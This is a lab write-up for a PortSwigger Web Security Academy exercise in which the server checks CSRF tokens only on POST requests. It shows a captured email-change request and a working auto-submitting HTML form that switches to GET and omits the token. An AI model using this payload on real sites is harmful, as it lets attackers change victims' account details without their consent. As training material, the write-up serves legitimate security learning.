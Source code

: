 # [CSRF: Token Validation Depends on Request Method](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method)

This is a valid POST request initiated by a logged-in user:

```http
POST /my-account/change-email HTTP/2
Host: 0a650063048614538281bf5700590043.web-security-academy.net
Cookie: session=Fr0dAU3G4s5ixvxQ8mn1Uvl67F21hjAD
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a650063048614538281bf5700590043.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: https://0a650063048614538281bf5700590043.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

email=a%40a.a&csrf=hN3CPjmJwe9hZzbKBltxaO33SUqAWpZf
```

The target validates the CSRF token when the request is via POST, but not for GET requests.

This exploit changes the request type (via `method=`) and omits the CSRF token entirely:

```html
<form action="https://0a650063048614538281bf5700590043.web-security-academy.net/my-account/change-email" method="GET">
  <input type="hidden" name="email" value="x@x.x" />
  <input type="submit" value="Submit request" />
</form>
<script>
  history.pushState('', '', '/');
  document.forms[0].submit();
</script>
```